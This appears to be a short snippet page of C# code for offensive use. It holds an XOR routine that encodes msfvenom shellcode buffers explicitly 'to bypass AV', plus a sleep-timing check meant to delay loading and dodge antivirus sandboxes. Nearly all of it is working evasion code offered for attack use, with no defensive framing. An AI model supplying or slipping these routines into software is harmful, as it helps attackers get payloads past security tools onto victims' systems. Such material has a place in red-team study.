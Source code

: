 ## C# Function to encode 'buf' payload from msfvenom to bypass AV


### Usage: XORencode(buf, 0x5f);  

``` Csharp

#
        public static void XORencode(byte[] _data, byte _key)
        {
            byte[] bufencoded = new byte[_data.Length];
            byte key = _key;



            for (int i = 0; i < _data.Length; i++)
            {
                bufencoded[i] = (_data[i] ^= key);
            }

            StringBuilder hex = new StringBuilder(bufencoded.Length * 2);
            foreach (byte b in bufencoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }

            Console.WriteLine("Encoded: byte[] buf = new byte[{0}] {{ {1} }}", bufencoded.Length, hex.ToString().TrimEnd(','));
        }
        public static byte[] XORdecode(byte[] data, byte key)
        {
            for (int i = 0; i < data.Length; i++)
            {
                data[i] ^= key; // XOR again to get original
            }

            StringBuilder hex = new StringBuilder(data.Length * 2);
            foreach (byte b in data)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }

            Console.WriteLine("decoded: byte[] buf = new byte[{0}] {{ {1} }}", data.Length, hex.ToString().TrimEnd(','));


            return data;
        }


```



## This is a sleep timer.  Used to delay loading and bypass AV

*** Sleep here is from the win32 API's ***

``` Csharp

    DateTime t1 = DateTime.Now;
    Sleep(2000);
    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
    if(t2 < 1.5)
    {
        return;
    }

```
